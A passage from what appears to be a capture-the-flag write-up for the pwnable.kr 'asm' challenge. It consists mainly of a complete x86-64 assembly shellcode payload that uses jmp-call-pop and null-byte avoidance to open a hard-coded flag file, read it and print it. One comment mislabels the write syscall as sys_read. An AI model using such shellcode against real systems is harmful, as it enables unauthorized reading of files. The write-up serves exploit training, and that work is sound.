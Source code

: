 Our `payload.asm` file:
```asm
;Author: Weston Silbaugh
;the asm for our shellcode payload
	section .mysec write exec alloc
	global	main

main:
	jmp		push_fname
s1:
;add null char
	xor		rax, rax
	pop		rbx
	push 		rbx
	add		bx,231
	mov		[ebx],eax
;open:
	add		al, 0x02	;sys_open
	pop		rdi		;const char *fname
	push 		rdi
	xor		rsi, rsi	;int flags
	xor		rdx, rdx	;int mode
	syscall
;read:
	mov		rdi, rax	;int fd
	xor		rax, rax	;sys_read
	pop		rsi		;buff
	push 		rsi
	add		dx, 400		;size
	syscall
;write:
	xor		eax, eax
	add 		al, 0x01	;sys_read
	xor		rdi, rdi
	add		rdi, 1		;int fd
	pop		rsi		;buff
	;mov		rdx, 128	;size
	syscall
exit:
	xor		rax, rax
	xor		rdi, rdi
	add		al, 60
	syscall
push_fname:
	call	s1
fname:
	;db "/home/nuser/ctf/progress/pwnable.kr/asm/this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong"
nullchar:
	db "a"
```
Normally we would want to make this payload smaller but with the generous `0x1000` its good enough.
